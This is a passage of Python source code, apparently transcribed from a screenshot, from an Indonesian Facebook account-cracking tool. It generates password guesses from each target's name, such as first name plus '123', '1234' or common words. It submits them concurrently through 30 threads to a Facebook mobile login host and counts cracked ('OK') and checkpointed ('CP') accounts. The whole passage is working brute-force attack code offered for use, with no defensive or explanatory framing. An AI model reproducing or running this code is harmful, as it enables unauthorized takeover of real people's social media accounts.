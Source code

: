 		LuciverXnxx.append('async')
	Setting_Password_Uy()




def Setting_Password_Uy():
	global prog,des
	print('')
	prog = Progress(TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'))
	des = prog.add_task('',total=len(id))
	with prog:
		with tred(max_workers=30) as _luciana_putri_:
			for dasar_pericode in id2:
				idf,nmf = dasar_pericode.split('|')[0],dasar_pericode.split('|')[1].lower()
				frs = nmf.split(' ')[0]
				aku_adalah_luciver_xploit_yang_ganteng = []
				if len(nmf)<6:
					if len(frs)<3:
						pass
					else:
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'123')
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'321')
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'1234')
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'123456')
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'ganteng') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'cantik') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'bangsat') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'katasandi') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'sayangku') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'palembang') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'bangsat123') 
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'bangka') 
				else:
					if len(frs)<3:
						aku_adalah_luciver_xploit_yang_ganteng.append(nmf)
					else:
						aku_adalah_luciver_xploit_yang_ganteng.append(nmf)
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'123')
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'1234')
						aku_adalah_luciver_xploit_yang_ganteng.append(frs+'12345')
				if 'ya' in luciver_xploit_official:
					for recode_aja in ari_marshello_music:
						aku_adalah_luciver_xploit_yang_ganteng.append(recode_aja)
				else:pass
				if 'async' in LuciverXnxx:
					_luciana_putri_.submit(Ricode_Terus,idf,aku_adalah_luciver_xploit_yang_ganteng,'m.prod.facebook.com')
				else:
					_luciana_putri_.submit(Ricode_Terus,idf,aku_adalah_luciver_xploit_yang_ganteng,'m.prod.facebook.com')
		print('') 
		DedeLuci_Punya_Ayah_LuciverXploit(f'     {P2}            HASIL : {H2}{luciver_ok}') 
		DedeLuci_Punya_Ayah_LuciverXploit(f'     {P2}            HASIL : {K2}{luciver_cp}')
		print('') 
		DedeLuci_Punya_Ayah_LuciverXploit(f'     {P2}                     OK : {H2}{ok}') 
		DedeLuci_Punya_Ayah_LuciverXploit(f'     {P2}                     CP :{K2} {cp}')
		print('')
